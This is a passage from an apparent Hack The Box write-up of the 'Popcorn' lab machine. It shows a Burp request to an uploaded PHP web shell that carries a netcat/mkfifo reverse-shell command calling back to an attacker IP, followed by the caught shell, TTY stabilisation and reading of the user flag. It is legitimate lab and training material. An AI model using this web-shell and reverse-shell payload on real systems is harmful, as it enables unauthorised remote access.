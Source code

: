 Now, I used burp to spawn a reverse shell. I used this request:

```bash
GET /torrent/upload/82482dc47b331a292828af3cf0822b5d591686d4.php?cmd=rm+/tmp/f%3bmkfifo+
/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.7+4444+>/tmp/f HTTP/1.1
Host: 10.10.10.6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: /torrent/torrents.php=; /torrent/login.php=; /torrent/index.php=; 
saveit_0=4; saveit_1=5; /torrent/torrents.phpfirsttimeload=0; 
PHPSESSID=bfbba53c3483b7d179bb673dc051d3f9
Upgrade-Insecure-Requests: 1
```

I got the reverse shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/popcorn]
└─$ nc -lvnp 4444    
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.6] 32820
/bin/sh: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@popcorn:/var/www/torrent/upload$ export TERM=xterm
export TERM=xterm
www-data@popcorn:/var/www/torrent/upload$ ^Z
zsh: suspended  nc -lvnp 4444
                                  
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/popcorn]
└─$ stty raw -echo; fg           
[1]  + continued  nc -lvnp 4444

www-data@popcorn:/var/www/torrent/upload$
```

I also stabilized the shell using python, shortcuts do now work fine without crashing the shell.

## User Flag

---

I might have access to the user flag:

```bash
www-data@popcorn:/home$ cd george
www-data@popcorn:/home/george$ ls
torrenthoster.zip  user.txt
www-data@popcorn:/home/george$ cat user.txt
1f**************************73a0

```
